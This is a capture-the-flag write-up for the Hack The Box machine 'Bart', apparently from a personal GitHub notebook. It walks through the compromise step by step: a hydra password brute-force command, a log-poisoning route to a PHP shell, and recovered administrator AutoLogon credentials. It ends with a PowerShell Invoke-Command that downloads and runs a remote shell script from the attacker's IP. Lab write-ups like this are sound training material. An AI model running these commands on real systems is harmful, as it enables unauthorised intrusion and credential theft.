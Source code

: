 # bart



## nmap

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



## http

- we are redirected to forum.bart.htb so we will add it to host file
- hidden in page source

![image-20200918163540589](/home/manish/.config/Typora/typora-user-images/image-20200918163540589.png)

**potential users**

```
h.potter
harvey potter
Samantha Brown
S.Brown
Daniel Simmons
D.Simmons
Robert Hilton
R.Hilton
```



#### ffuf

- brute forcing directories to find something interesting

![image-20200918165324149](bart.assets/image-20200918165324149.png)

- found two interesting directories forum and monitor



#### credentials

- in monitor subdomain the credentials for harvey account is 

```
harvey		potter
```

![image-20200918165756065](bart.assets/image-20200918165756065.png)



- found a new subdomain 

```
internal-01.bart.htb
```



#### internal chat server

- there are no ssrf tokens
- means we can brute force the site with hydra or burp suite

```
hydra -l harvey -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```

![image-20200918172006431](bart.assets/image-20200918172006431.png)



#### credentials

```
harvey		Password1
```





## shell

- in the source code of internal-01.bart.htb

![image-20200918172252690](bart.assets/image-20200918172252690.png)



#### log poisoning

- we changed the filename to log and see it giving us user agent
- we can use it change our user agent to a malicious php script to get shell



![image-20200918172337371](bart.assets/image-20200918172337371.png)



- we can use this to get a shell

![image-20200918173051571](bart.assets/image-20200918173051571.png)



- got a shell as nt authority\iusr	which is network services

![image-20200918173727342](bart.assets/image-20200918173727342.png)



- We are running as 32 bit process in 64 bit environment

```powershell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```

![image-20200918174808537](bart.assets/image-20200918174808537.png)



- we need to migrate to a 64 bit process

[article to launch 64 bit shell](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe)



![image-20200918175233313](bart.assets/image-20200918175233313.png)



- running PowerUp.ps1
- got AutoLogon credentials

![image-20200918175511904](bart.assets/image-20200918175511904.png)

```
DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb
```



**powershell runas**

```
$username = "bart\administrator"
$password = ConvertTo-SecureString "3130438f31186fbaf962f407711faddb" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -argumentlist $username, $password
Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```



![image-20200918185108317](bart.assets/image-20200918185108317.png)



```
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/shell.ps1') } -Credential $cred -Computer localhost
```

![image-20200918191755111](bart.assets/image-20200918191755111.png)

